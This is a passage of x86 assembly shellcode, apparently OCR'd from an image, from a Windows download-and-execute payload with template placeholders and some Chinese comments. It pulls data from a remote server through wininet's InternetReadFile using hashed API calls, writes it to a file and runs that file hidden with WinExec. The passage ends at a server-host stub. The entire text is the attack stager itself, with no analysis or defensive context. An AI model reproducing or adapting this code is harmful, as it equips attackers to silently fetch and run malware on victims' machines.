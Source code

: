 		download_prep:
		  xchg eax, ebx     ; place the file handle in ebx
		  xor eax,eax       ; zero eax
		  mov ax,0x304      ; we'll download 0x300 bytes at a time
		  sub esp,eax       ; reserve space on stack
		
		download_more:
		  push esp          ; &bytesRead
		  lea ecx,[esp+0x8] ; target buffer
		  xor eax,eax
		  mov ah,0x03       ; eax => 300
		  push eax          ; read length
		  push ecx          ; target buffer on stack
		  push esi          ; hRequest
		  push 0xE2899612   ; hash( "wininet.dll", "InternetReadFile" )
		  call ebp
		
		  test eax,eax        ; download failed? (optional?)
		  jz thats_all_folks  ; failure -> exit
		
		  pop eax             ; how many bytes did we retrieve ?
		
		  test eax,eax        ; optional?
		  je close_and_run    ; continue until it returns 0
		
		write_to_file:
		  push 0              ; lpOverLapped
		  push esp            ; lpNumberOfBytesWritten
		  push eax            ; nNumberOfBytesToWrite
		  lea eax,[esp+0xc]   ; get pointer to buffer
		  push eax            ; lpBuffer
		  push ebx            ; hFile
		  push 0x5BAE572D     ; kernel32.dll!WriteFile  将下载数据写入文件
		  call ebp
		  sub esp,4           ; set stack back to where it was
		  jmp.i8 download_more
		
		close_and_run:
		  push ebx
		  push 0x528796C6    ; kernel32.dll!CloseHandle
		  call ebp
		
		execute_file:
		  push 0             ; don't show
		  push edi           ; lpCmdLine
		  push 0x876F8B31    ; kernel32.dll!WinExec  exe执行
		  call ebp
		
		thats_all_folks:
		  #{exitasm}
		
		get_filename:
		  call get_filename_return
		  db "#{filename}",0x00
		
		get_server_host:
		  call internetconnect
		